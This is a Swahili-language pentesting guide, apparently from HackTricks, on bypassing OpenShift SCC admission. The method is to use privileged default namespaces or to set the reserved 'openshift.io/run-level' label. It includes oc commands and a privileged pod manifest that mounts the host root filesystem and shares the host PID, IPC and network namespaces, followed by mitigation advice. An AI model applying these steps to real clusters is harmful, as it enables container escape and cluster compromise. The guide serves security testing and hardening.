

# Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**Mwandishi wa awali wa ukurasa huu ni** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces Zenye Privilege

Projects chaguomsingi zifuatazo zina privilege kubwa, na utendaji unaotegemea admission plugins, ikiwemo SCC admission, haufanyi kazi ndani yake:<sup>[[1]](#references)</sup>

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Usiendeshe workloads ndani ya namespaces hizi wala kuwapa users wasioaminika access kwa namespaces hizi. User anayeweza kuunda pods humo anaweza kuomba mipangilio nyeti ya kiusalama, kama vile privileged containers na host filesystem mounts, bila SCC admission kuikataa.<sup>[[1]](#references)</sup>

## Namespace Label

Namespace label ya `openshift.io/run-level` imehifadhiwa kwa ajili ya OpenShift components za ndani. Red Hat inaonya kwamba kuiweka husababisha SCCs kutotumika kwa pods zilizo katika namespace hiyo, na hivyo kuacha workloads zake zikiwa na privilege kubwa.<sup>[[1]](#references)</sup> Ku-exploit tabia hii kunahitaji angalau mojawapo ya mchanganyiko ufuatao wa permissions:

- Permission ya kuunda namespaces na kuunda pods katika namespace mpya iliyoundwa.
- Permission ya ku-patch au ku-update namespace iliyopo na kuunda pods katika namespace hiyo.
```bash
$ oc auth can-i create namespaces
yes

$ NAMESPACE=example-workloads
$ oc auth can-i patch namespace/"$NAMESPACE"
yes

$ oc auth can-i create pods -n "$NAMESPACE"
yes
```
<figure><figcaption></figcaption></figure>

## Ongeza Label

Ili kuongeza label kwenye namespace ya majaribio:
```bash
$ oc label namespace example-workloads openshift.io/run-level=0
```
Ili kuunda namespace yenye label kupitia faili ya YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: example-workloads
labels:
openshift.io/run-level: "0"
```
Pods mpya zilizoundwa katika namespace hazipaswi kuwa na SCC annotation:
```bash
$ oc get pod scc-test-pod -o jsonpath='{.metadata.annotations.openshift\.io/scc}{"\n"}'

```
Bila SCC admission, pod haizuiliwi na vidhibiti vya SCC kama vile privileged-container, privilege-escalation, host-namespace, na vikwazo vya host-volume.<sup>[[1]](#references)</sup> Kwa hivyo, pod hasidi inaweza kuomba mipangilio inayohitajika kufikia host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: scc-test-pod
spec:
hostNetwork: true # Bind the pod to the host network.
hostPID: true # See host processes.
hostIPC: true # Access the host IPC namespace.
containers:
- name: security-test
image: registry.example/pentest/tooling:1.0
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt/host
volumes:
- name: hostrootfs
hostPath:
path: /
```
Host access inaweza kufichua node credentials na nyenzo nyingine nyeti za cluster ambazo zinaweza kuwezesha cluster compromise pana zaidi. Angalia sehemu ya **Node-Post Exploitation** katika ukurasa ufuatao:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Custom labels

Kulingana na usanidi wa target, custom automation au admission policies zinaweza pia kutumia labels au annotations kutoa permissions au kubadilisha resource restrictions.

Tafuta custom labels ikiwa unaweza kusoma resources. Resources zinazovutia ni pamoja na:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Orodhesha namespaces zilizo na label ya run-level
```bash
$ oc get namespaces -l 'openshift.io/run-level' --show-labels
```
Miradi chaguomsingi maalum iliyoorodheshwa awali pia ina ruhusa nyingi hata kama query ya label haizirejeshi.

## Mitigation

Zuia subjects wasioaminika kuunda au kurekebisha namespaces zenye label iliyohifadhiwa, na ku-deploy workloads katika miradi yenye ruhusa nyingi.<sup>[[1]](#references)</sup>

Zana za admission-policy kama vile **Open Policy Agent Gatekeeper** zinaweza kutekeleza constraints kwenye objects za `Namespace` na kukataa admission requests zinazokiuka masharti, hivyo zinaweza kusanidiwa kukataa label hii.<sup>[[2]](#references)</sup>

## References

- [1] [Kusimamia security context constraints - OpenShift Container Platform 4.22](https://docs.redhat.com/en/documentation/openshift_container_platform/4.22/html/authentication_and_authorization/managing-pod-security-policies)
- [2] [Jinsi ya kutumia Gatekeeper](https://open-policy-agent.github.io/gatekeeper/website/docs/howto/)
{{#include ../../../banners/hacktricks-training.md}}
